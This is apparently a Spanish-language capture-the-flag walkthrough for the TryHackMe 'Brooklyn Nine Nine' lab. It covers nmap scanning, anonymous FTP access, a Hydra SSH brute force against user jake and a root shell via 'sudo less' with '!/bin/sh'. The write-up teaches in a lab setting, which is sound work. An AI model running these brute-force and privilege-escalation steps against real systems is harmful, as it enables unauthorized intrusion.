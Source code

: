 # Escalada de Privilegios en Linux – Sudo -l | Parte 2

Maquinas que vamos a utilizar **Kali Linux y Brooklyn Nine Nine** [https://tryhackme.com/room/brooklynninenine](https://tryhackme.com/room/brooklynninenine)

```bash
ping -c 1 10.10.196.44
```

![image.png](./imagenes/image%2026.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.10.196.44
```

![image.png](./imagenes/image%2027.png)

- Vamos a ver lo que esta corriendo por el puerto 80 a través del navegador web.
    
    ![image.png](./imagenes/image%2028.png)
    
    No parece que haya nada interesante aqui.
    
- Vamos a probar el login FTP como **anonymous.**
    
    ```bash
    ftp 10.10.196.44
    ```
    
    ![image.png](./imagenes/image%2029.png)
    
    - Hacemos un listado de archivos
        
        `ls`
        
        ![image.png](./imagenes/image%2030.png)
        
        Nos encontramos un archivo note_to_jake.txt , que vamos a intentar bajárnoslo a nuestro ordenador utilizando el comando **get**.
        
        `get note_to_jake.txt`
        
        ![image.png](./imagenes/image%2031.png)
        
        `exit`
        
    
- Verificamos la descarga del archivo.
    
    ```bash
    ls
    ```
    
    ![image.png](./imagenes/image%2032.png)
    

- Miramos su contenido
    
    ```bash
     cat note_to_jake.txt 
    ```
    
    ![image.png](./imagenes/image%2033.png)
    
    Hemos conseguido el nombre de un usuario.
    

<aside>
💡

Recapitulemos la maquina victima tiene **abierto** el puerto **21 FTP** y el puerto **22 SSH**. Tenemos un **nombre de usuario** **Jake** por tanto podemos hacer una **ataque de fuerza bruta con Hydra**.

</aside>

- Atacamos el puerto SSH
    
    ```bash
    hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.196.44
    ```
    
    ![image.png](./imagenes/image%2034.png)
    
- Lo probamos
    
    ```bash
    ssh [jake@10.10.196.44](./imagenes/mailto:jake@10.10.196.44)
    ```
    
    ![image.png](./imagenes/image%2035.png)
    
    Ya estamos dentro. 
    
    ---
    
- Ahora vamos a intentar escalar privilegios mediante **sudo -l**.
    
    `sudo -l`
    
    ![image.png](./imagenes/image%2036.png)
    
    Vemos que **podemos ejecutar** el binario **less** con sudo.
    
- Nos vamos a la web [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/). Y **buscamos** el binario **less con sudo.**
    
    ![image.png](./imagenes/image%2037.png)
    
    ![image.png](./imagenes/image%2038.png)
    

- Ejecutamos los comandos. NOTA: no olvidar poner la ruta absoluta para evitar errores.
    
    `sudo less /etc/profile`
    
    ![image.png](./imagenes/image%2039.png)
    
    ![image.png](./imagenes/image%2040.png)
    

`!/bin/sh` y pulsamos la tecla Enter

![image.png](./imagenes/image%2041.png)

`whoami`

![image.png](./imagenes/image%2042.png)